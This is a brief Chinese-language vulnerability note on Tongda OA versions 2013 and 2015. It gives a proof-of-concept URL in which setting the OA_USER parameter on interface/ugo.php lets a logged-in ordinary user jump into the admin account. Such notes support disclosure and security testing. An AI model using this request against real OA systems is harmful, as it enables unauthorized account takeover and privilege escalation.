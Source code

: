 ## 通达oa 任意账号跳转

### 漏洞描述

需要登录

### 漏洞影响

2013、2015版本

### 漏洞复现

POC:

`http://url/interface/ugo.php?OA_USER=admin`

通过控制OA_USER参数进行任意⽤户的跳转，⽐如说你现在是个普通权限的⽤户，使用这个⻚面即可跳转到admin用户下面。
